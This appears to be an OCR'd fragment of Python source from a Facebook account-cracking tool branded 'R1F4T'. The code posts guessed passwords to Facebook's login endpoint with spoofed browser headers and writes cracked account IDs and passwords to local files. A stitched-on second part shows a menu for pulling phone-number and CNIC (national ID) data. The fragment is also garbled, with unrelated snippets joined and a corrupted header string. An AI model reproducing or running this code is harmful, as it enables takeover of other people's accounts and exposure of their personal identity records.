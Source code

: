 			'method': 'GET',
			'scheme': 'https',
			'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9',
			'accept-language': 'en-PK,en-GB,en-US;q=0.9,en;q=0.8,en;q=0.7', 
			'dnt':'1', 
			'x-requested-with':'mark.via.gp', 
			'sec-fetch-site': 'none',
			'sec-fetch-mode': 'navigate',
			'sec-fetch-user': '?1',
			'sec-fetch-dest': 'document',
			'accept-encoding':'gzip, deflate, br','accept-language': 'en-US,en;q=0.9',
			'cache-control': 'max-age=0',
			'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="105", "Google Chrome";v="105"',
			'sec-ch-ua-mobile': '?1','sec-ch-ua-platform': '"Windows"',
			"sec-ch-prefers-color-scheme": "light",
			'user-agent': ua}
			lo = session.post('https://p.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb).text
			log_cookies=session.cookies.get_dict().keys()
			#print(iid+'|'+pws+'|'+str(log_cookies))
			if 'c_user' in log_cookies:
				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
				cid = coki[151:166]
				print('\033[1;92m[R1F4T-OK] '+cid+' | '+ps+'\033[1;32m')
				open('R1F4T-OK.txt', 'a').write(cid+' | '+ps+'\n')
				oks.append(cid)
				break
			elif 'checkpoint' in log_cookies:
				coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
				cid = coki[141:156]
				print('\33[1;31m[R1F4T-CP] '+cid+' | '+ps+'\33[0;97m')
				open('R1F4T-CP.txt', 'a').write(cid+' | '+ps+'\n')
				cps.append(cid)
				break
			else:
				continue
		loop+=1
	except:
		pass
#
try:
    import os,requests,re
    from bs4 import BeautifulSoup
    from bs4 import BeautifulSoup as parser
except ModuleNotFoundError:
    print('\n installing modules ...')
    os.system('pip install requests bs4 > /dev/null')
def main():
        os.system("clear")
        print(logo)
        linex()
        print('[1] Get any number data')
        print('[2] Get CNIC number data')
        print('[3] Go to main menu')
        linex()
        xd = input(' Choose : ')
        if xd =='1':
            zong()
        elif xd =='2':
            cinc()
        elif xd =='3':
            rifat()